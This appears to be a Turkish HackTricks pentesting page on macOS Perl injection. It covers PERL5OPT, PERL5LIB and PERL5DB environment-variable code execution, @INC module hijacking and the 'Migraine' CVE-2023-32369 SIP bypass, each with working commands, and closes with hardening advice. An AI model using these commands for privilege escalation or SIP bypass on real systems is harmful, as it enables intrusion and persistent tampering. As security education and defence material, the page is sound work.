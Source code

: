 # macOS Perl Uygulamaları Enjeksiyonu

{{#include ../../../banners/hacktricks-training.md}}

## `PERL5OPT` & `PERL5LIB` ortam değişkeni aracılığıyla

Ortam değişkeni **`PERL5OPT`** kullanarak, **Perl**'ün yorumlayıcı başladığında (hedef scriptin ilk satırı analiz edilmeden **önce** bile) rastgele komutlar çalıştırması mümkündür. Örneğin, bu scripti oluşturun:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
Şimdi **env değişkenini dışa aktarın** ve **perl** betiğini çalıştırın:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Başka bir seçenek, bir Perl modülü oluşturmaktır (örneğin, `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
Ve ardından modülün otomatik olarak bulunması ve yüklenmesi için çevresel değişkenleri kullanın:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### Diğer ilginç ortam değişkenleri

* **`PERL5DB`** – yorumlayıcı **`-d`** (hata ayıklayıcı) bayrağı ile başlatıldığında, `PERL5DB`'nin içeriği hata ayıklayıcı bağlamında Perl kodu olarak çalıştırılır. Hem ortamı **hem de** ayrıcalıklı bir Perl sürecinin komut satırı bayraklarını etkileyebiliyorsanız, şöyle bir şey yapabilirsiniz:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # scripti çalıştırmadan önce bir shell açar
```

* **`PERL5SHELL`** – Windows'ta bu değişken, Perl'in bir shell açması gerektiğinde hangi shell yürütülebilir dosyasını kullanacağını kontrol eder. Bu, macOS'ta ilgili olmadığı için burada yalnızca tamlık açısından belirtilmiştir.

`PERL5DB` bayrağını gerektirse de, bu bayrak açık hata ayıklama için etkinleştirildiğinde *root* olarak çalıştırılan bakım veya yükleyici betikleri bulmak yaygındır, bu da değişkeni geçerli bir yükseltme vektörü haline getirir.

## Bağımlılıklar aracılığıyla (@INC istismarı)

Perl'in arayacağı dahil etme yolunu listelemek mümkündür (**`@INC`**) çalıştırarak:
```bash
perl -e 'print join("\n", @INC)'
```
macOS 13/14'te tipik çıktı şöyle görünür:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Bazı döndürülen klasörler hiç mevcut değil, ancak **`/Library/Perl/5.30`** mevcut, SIP tarafından *korunmuyor* ve SIP ile korunan klasörlerden *önce* yer alıyor. Bu nedenle, eğer *root* olarak yazabiliyorsanız, o modülü içe aktaran herhangi bir ayrıcalıklı script tarafından *öncelikli olarak* yüklenecek kötü niyetli bir modül (örneğin, `File/Basename.pm`) bırakabilirsiniz.

> [!WARNING]
> `/Library/Perl` içine yazmak için hala **root** olmanız gerekiyor ve macOS, yazma işlemini gerçekleştiren süreç için *Tam Disk Erişimi* isteyen bir **TCC** istemi gösterecektir.

Örneğin, bir script **`use File::Basename;`** ifadesini içe aktarıyorsa, saldırgan kontrolündeki kodu içeren `/Library/Perl/5.30/File/Basename.pm` oluşturmak mümkün olacaktır.

## SIP atlatma, Göç Asistanı aracılığıyla (CVE-2023-32369 “Migraine”)

Mayıs 2023'te Microsoft, *root* bir saldırganın **Sistem Bütünlüğü Korumasını (SIP)** tamamen **atlatmasına** olanak tanıyan **CVE-2023-32369**'u, takma adıyla **Migraine** olarak açıkladı. 
Zayıf nokta, **`systemmigrationd`** adlı, **`com.apple.rootless.install.heritable`** yetkisine sahip bir daemon'dur. Bu daemon tarafından başlatılan herhangi bir çocuk süreç, bu yetkiyi devralır ve dolayısıyla **SIP** kısıtlamalarının *dışında* çalışır.

Araştırmacılar tarafından tanımlanan çocuklar arasında Apple imzalı yorumlayıcı da bulunmaktadır:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Çünkü Perl `PERL5OPT`'i (ve Bash `BASH_ENV`'i) dikkate alır, daemon'un *ortamını* zehirlemek, SIP'siz bir bağlamda keyfi yürütme elde etmek için yeterlidir:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
`migrateLocalKDC` çalıştığında, `/usr/bin/perl` kötü niyetli `PERL5OPT` ile başlar ve `/private/tmp/migraine.sh` dosyasını *SIP yeniden etkinleştirilmeden önce* çalıştırır. Bu scriptten, örneğin, bir yükü **`/System/Library/LaunchDaemons`** içine kopyalayabilir veya bir dosyayı **silinemez** hale getirmek için `com.apple.rootless` genişletilmiş niteliğini atayabilirsiniz.

Apple bu sorunu macOS **Ventura 13.4**, **Monterey 12.6.6** ve **Big Sur 11.7.7**'de düzeltti, ancak daha eski veya yamanmamış sistemler hala istismar edilebilir.

## Güçlendirme önerileri

1. **Tehlikeli değişkenleri temizleyin** – ayrıcalıklı launchdaemons veya cron görevleri, temiz bir ortamda başlamalıdır (`launchctl unsetenv PERL5OPT`, `env -i`, vb.).
2. **Yorumlayıcıları root olarak çalıştırmaktan kaçının**; yalnızca kesinlikle gerekli olduğunda kullanın. Derlenmiş ikilileri kullanın veya yetkileri erken düşürün.
3. **`-T` (taint modu) ile satıcı scriptleri** kullanın, böylece Perl taint kontrolü etkinleştirildiğinde `PERL5OPT` ve diğer güvensiz anahtarları göz ardı eder.
4. **macOS'u güncel tutun** – “Migraine” mevcut sürümlerde tamamen yamanmıştır.

## Referanslar

- Microsoft Security Blog – “Yeni macOS güvenlik açığı, Migraine, Sistem Bütünlüğü Korumasını atlayabilir” (CVE-2023-32369), 30 Mayıs 2023.
- Hackyboiz – “macOS SIP Atlatma (PERL5OPT & BASH_ENV) araştırması”, Mayıs 2025.

{{#include ../../../banners/hacktricks-training.md}}

